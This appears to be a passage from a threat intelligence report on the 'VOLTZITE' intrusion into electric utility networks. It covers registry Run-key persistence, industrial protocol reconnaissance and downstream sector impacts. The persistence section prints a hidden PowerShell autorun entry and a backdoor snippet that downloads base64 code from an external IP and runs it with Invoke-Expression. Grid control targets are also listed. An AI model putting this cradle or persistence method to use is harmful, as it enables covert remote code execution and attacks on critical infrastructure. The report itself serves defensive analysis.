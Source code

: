 Following initial access, VOLTZITE established multiple persistence mechanisms designed to survive system reboots and security updates. The threat actor avoided deploying custom malware, instead utilizing legitimate Windows administrative tools to maintain access while evading detection.

**Registry Persistence Evidence**:
```
Registry Key: HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run
Value Name: WindowsSecurityHealth
Value Data: powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\\Windows\\Temp\\msupdate.ps1
```

**PowerShell Backdoor Analysis**:
```powershell
# Obfuscated VOLTZITE communication script
$wc = New-Object System.Net.WebClient
$data = $wc.DownloadString("hxxp://185.220.100.241/api/health")
$decoded = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($data))
Invoke-Expression $decoded
```

### Operational Technology Reconnaissance

VOLTZITE conducted systematic reconnaissance of operational technology networks controlling electric grid operations. The threat actor demonstrated advanced understanding of industrial protocols and control systems architectures used in power generation and distribution.

**Industrial Protocol Discovery**:
```
DNP3 Protocol Targets Identified:
- Master Station: 192.168.100.10 (Generation Control System)
- Outstation: 192.168.100.15 (Transmission Substation Alpha)
- Outstation: 192.168.100.16 (Distribution Feeder Control)

IEC 61850 Device Enumeration:
- GGIO1: Grid Interconnection Control
- MMXU1: Merging Unit (Voltage/Current Measurement)
- CSWI1: Circuit Breaker Control Logic
```

**Service Account Compromise**: The campaign culminated in compromise of the SCADA\\EnergyOps service account, providing direct access to energy management systems, historian databases, and grid control interfaces.

---

## Cross-Sector Impact Assessment

The affected utility infrastructure supports critical systems extending beyond energy delivery. Grid compromise threatens cascading failures across interconnected infrastructure that communities depend on for essential services.

### Infrastructure Dependencies
| Sector | Facilities Affected | Capacity | Backup Power Duration | Population Impact |
|--------|-------------------|----------|----------------------|-------------------|
| **Water Treatment** | 12 facilities | 180M gallons/day | 72 hours maximum | 340,000 residents |
| **Food Processing** | 8 facilities | 2.3M cubic feet cold storage | 4-8 hours | Regional food supply |
| **Healthcare** | 3 hospitals | Emergency services | 96 hours | Critical care operations |
| **Communications** | 15 cell towers | Regional coverage | 24 hours | Emergency communications |

